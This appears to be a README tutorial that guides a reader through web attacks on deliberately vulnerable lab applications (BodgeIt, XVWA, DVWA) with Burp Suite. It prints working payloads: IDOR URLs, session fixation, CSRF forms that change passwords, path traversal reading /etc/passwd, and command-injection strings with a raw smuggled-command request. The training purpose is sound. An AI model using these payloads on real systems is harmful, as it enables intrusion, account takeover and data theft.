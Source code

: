 # Web hacking for Lo Teks

You will only need :
1. [Burp Suite Community Edition_](https://portswigger.net/burp/communitydownload) - choose "*Download plain JAR file*"
2. Optional for your comfort - a plugin to switch proxy setting for your browser, like **FoxyProxy** for [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-standard/gcknhkkoolaabfmlnjonogaaifnjlfnp) or [Firefox](https://addons.mozilla.org/sk/firefox/addon/foxyproxy-standard/)

Now you need to read [this](http://www.phrack.org/issues/7/3.html) and start your `BurpSuite`

`java -jar burpsuite_community_v1.7.36.jar`

List of apps to play with:
* [The BodgeIt Store](http://bodgeit.lab/bodgeit/)
* [Xtreme Vulnerable Web Application (XVWA)](http://xvwa.lab/xvwa/)
* [Damn Vulnerable Web Application (DVWA)](http://dvwa.lab/)


## Broken Access Control

With a little bit of *Insecure Direct Object References (IDOR)*

### BodgeIt Admin interface

If there is no **admin** section in the menu, it doesn't mean there is none.

but you can [guess](http://bodgeit.lab/bodgeit/admin.jsp)

`http://bodgeit.lab/bodgeit/admin.jsp`


### BodgeIt Debug Messages

Wish there was some magic switch to show some sensitive stuff.

No problem. Try something like [this])http://bodgeit.lab/bodgeit/basket.jsp?debug=true)

`http://bodgeit.lab/bodgeit/basket.jsp?debug=true`


### Client-side data validation

`Proxy > Options > Response Modification > Remove JavaScript form validation`

### I can see what you buy

1. Visit [BodgeIt basket](http://bodgeit.lab/bodgeit/basket.jsp)
2. Change your cookie `Cookie: b_id=3;`
3. Refresh the page

### Insecure Direct Object References (IDOR)

WAT? Lets have look [here](http://xvwa.lab/xvwa/vulnerabilities/idor/).

We only have a `Café au lait`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=5`

But I want to order a `Caffé latte`

`http://xvwa.lab/xvwa/vulnerabilities/idor/?item=7`


### What if i change this ...

You can test it [here](http://xvwa.lab/xvwa/vulnerabilities/missfunc/).

If you can *view*

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=view`

maybe you can do more

`http://xvwa.lab/xvwa/vulnerabilities/missfunc/?item=10&action=delete`


## Broken Authentication and Session Management


### SESSIONID

What are all these random letters numbers? Well, they really are (should be) random ;]
But remember
> Keep It Hidden Keep It Safe

### Session fixation 

Easy as sending a [link](http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF) to someone.

`http://bodgeit.lab/bodgeit/login.jsp?JSESSIONID=0CE01A16F33AC52D89705BC9A088E0AF`




## Cross-Site Request Forgery (CSRF)

[This](http://xvwa.lab/xvwa/vulnerabilities/csrf/) is how a bad idea looks like.

`http://xvwa.lab/xvwa/vulnerabilities/csrf/?passwd=heslo&confirm=heslo&submit=submit`


BodgeIt : leave feedback to change passwords

`<img src='http://bodgeit.lab/bodgeit/password.jsp?password1=heslo&password2=heslo'>`

```
<form action="http://bodgeit.lab/bodgeit/password.jsp" method="POST">
  <input type="hidden" name="password1" value="heslo" />
  <input type="hidden" name="password2" value="heslo" />
  <input type="submit" value="Submit request" />
</form>
<script>document.forms[0].submit();</script>

```

## Insecure Direct Object References (IDOR) - again...

Yes, it can be bad, check [this](http://xvwa.lab/xvwa/vulnerabilities/fi/)

You show me `readme.txt`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=readme.txt`

but I want to see `/etc/passwd`

`http://xvwa.lab/xvwa/vulnerabilities/fi/?file=/etc/passwd`


Same as [here](http://dvwa.lab/vulnerabilities/fi/?page=include.php)

Oh no, a file include

`http://dvwa.lab/vulnerabilities/fi/?page=file1.php`

with a bonus

`http://dvwa.lab/vulnerabilities/fi/?page=file4.php`

but we want more!

`http://dvwa.lab/vulnerabilities/fi/?page=../../phpinfo.php`


Or you can upload your own backdoor using the [image upload](http://dvwa.lab/vulnerabilities/upload) and then access it 

`../../hackable/uploads/phpinfo.txt`



## Injection

Let's do some real **hacking**, I want a **shell**!

## Command Injection

Ok, [Let's go!](`http://dvwa.lab/dvwa/vulnerabilities/exec/`)

`http://dvwa.lab/dvwa/vulnerabilities/exec/`

or

`http://xvwa.lab/xvwa/vulnerabilities/cmdi/`

```
127.0.0.1;id
127.0.0.1&id
x||id
```

```
POST /dvwa/vulnerabilities/exec/ HTTP/1.1
Host: dvwa.lab
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dvwa.lab/dvwa/vulnerabilities/exec/
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Connection: close
Cookie: security=high; PHPSESSID=1mdh1pt8dt42taesnorvlh9og2
Upgrade-Insecure-Requests: 1

ip=127.0.0.1%0d%0Aid&Submit=Submit
```